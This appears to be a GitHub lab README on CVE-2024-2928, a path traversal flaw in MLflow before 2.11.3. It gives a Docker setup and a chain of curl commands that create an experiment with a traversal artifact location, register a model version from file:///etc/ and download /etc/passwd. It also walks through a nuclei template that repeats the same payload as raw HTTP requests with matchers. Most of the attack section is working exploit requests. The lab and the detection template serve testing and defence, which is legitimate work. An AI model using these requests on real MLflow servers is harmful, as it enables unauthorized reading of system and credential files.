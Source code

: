 

# CVE-2024-2928 - MLflow < 2.11.3 - Path Traversal

## Description

MLflow versions prior to `2.11.3` are vulnerable to a **Path Traversal** vulnerability due to improper handling of URI fragments in artifact locations. An attacker can exploit this to read arbitrary files from the server, including sensitive files like `/etc/passwd`.


## References:

* [NVD CVE Details](https://nvd.nist.gov/vuln/detail/CVE-2024-2928)
* [Exploit Code](https://github.com/nuridincersaygili/CVE-2024-2928/blob/main/CVE-2024-2928.py)
* [Nuclei Official Template](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-2928.yaml)


## Lab Setup

> Requires Docker installed

```bash
docker-compose up -d
```

The vulnerable MLflow application will run on:

```bash
http://<your-docker-ip>:5000
```


## Nuclei Command

```bash
nuclei -u http://192.168.1.172:5000 -t CVE-2024-2928.yaml
```

![6](https://github.com/user-attachments/assets/b106e672-0357-401a-9f54-a1a0dce74560)


# Exploitation Steps

1. Create experiment with artifact location as /etc/:
```
curl -s -X POST http://192.168.1.172:5000/ajax-api/2.0/mlflow/experiments/create \
  -H "Content-Type: application/json" \
  -d '{
        "name": "exploit123",
        "artifact_location": "http:///#/../../../../../../../../../../../../../..//etc/"
      }'
```

 - You should get experiment_id: 7 (for example)

![1](https://github.com/user-attachments/assets/a5775a67-5c5c-49c1-8dd3-dcdeaa047a22)


2. Create run: (experiment_id request according change)

```
curl -s -X POST http://192.168.1.172:5000/api/2.0/mlflow/runs/create \
  -H "Content-Type: application/json" \
  -d '{"experiment_id": "7"}'
```
 - Note the run_id returned. Let's say: 3cfc250090b246b68f34fb2dfa42ba0e

![2](https://github.com/user-attachments/assets/a333cf1a-ee4e-45c5-80a7-bf7fb56859ea)


3. Register model:

```
curl -s -X POST http://192.168.1.172:5000/ajax-api/2.0/mlflow/registered-models/create \
  -H "Content-Type: application/json" \
  -d '{"name": "exploit123"}'
```

![3](https://github.com/user-attachments/assets/b4ce8dc5-9988-4e2a-863e-6be97f0d65c0)


4. Create model version using directory as source: (Chage run_id according to request)

```
curl -s -X POST http://192.168.1.172:5000/ajax-api/2.0/mlflow/model-versions/create \
  -H "Content-Type: application/json" \
  -d '{
        "name": "exploit123",
        "run_id": "3cfc250090b246b68f34fb2dfa42ba0e",
        "source": "file:///etc/"
      }'
```

 - This should now succeed because /etc/ matches the artifact path.

![4](https://github.com/user-attachments/assets/de0fc4dd-d916-4abf-a868-581c8d01f4a6)


5. Fetch /etc/passwd

```
curl -s "http://192.168.1.172:5000/model-versions/get-artifact?path=passwd&name=exploit1234&version=1"
```

![5](https://github.com/user-attachments/assets/ebe32ed1-2ad8-48c9-b316-c8a73fcf3b1a)


# Steps to Write Nuclei Template

### **HTTP Requests**

```yaml
http:
  - raw:
      - |
        POST /ajax-api/2.0/mlflow/experiments/create HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"name": "{{randstr}}", "artifact_location": "http:\/\/\/#\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/etc\/"}
```

🔹 **Creates a new experiment** in MLflow.

🔹 The `"artifact_location"` includes **directory traversal** using `../../../` to reach `/etc/`.



```yaml
      - |
        POST /api/2.0/mlflow/runs/create HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"experiment_id": "{{EXPERIMENT_ID}}"}
```

🔹 Creates a **run** under the experiment.

🔹 Uses the ID extracted from the first request (`EXPERIMENT_ID`).


```yaml
      - |
        POST /ajax-api/2.0/mlflow/registered-models/create HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"name": "{{randstr}}"}
```

🔹 Creates a **registered model**. The name is randomly generated.


```yaml
      - |
        POST /ajax-api/2.0/mlflow/model-versions/create HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"name": "{{randstr}}", "run_id": "{{RUN_ID}}", "source": "file:///etc/"}
```

🔹 Registers a **model version** using a `file:///etc/` path — aiming to fetch files from the server filesystem.

🔹 Uses `run_id` extracted earlier.


```yaml
      - |
        GET /model-versions/get-artifact?path=passwd&name={{randstr}}&version=1 HTTP/1.1
        Host: {{Hostname}}
```

🔹 **Final payload** to extract the actual file `/etc/passwd` using `get-artifact`.

🔹 `passwd` is passed as the path argument to download sensitive file content.


### **Matchers (Detecting Success)**

```yaml
matchers-condition: and
matchers:
  - type: regex
    part: body_5
    regex:
      - "root:.*:0:0:"
```

 Checks if `/etc/passwd` file content is present by matching typical `/etc/passwd` lines like `root:x:0:0:`.

```yaml
  - type: word
    part: header_5
    words:
      - "filename=passwd"
      - "application/octet-stream"
    condition: and
```

 Ensures server responded with:

* A downloadable file named `passwd`
* Content type is `application/octet-stream`


```yaml
  - type: status
    status:
      - 200
```

 Confirms HTTP 200 (OK) response.


### **Extractors (Capturing Dynamic Values)**

```yaml
  - type: json
    part: body_1
    name: EXPERIMENT_ID
    group: 1
    json:
      - '.experiment_id'
    internal: true
```

 Extracts `experiment_id` after the experiment creation.

```yaml
  - type: json
    part: body_2
    name: RUN_ID
    group: 1
    json:
      - '.run.info.run_id'
    internal: true
```

Extracts `run_id` from the run creation response.





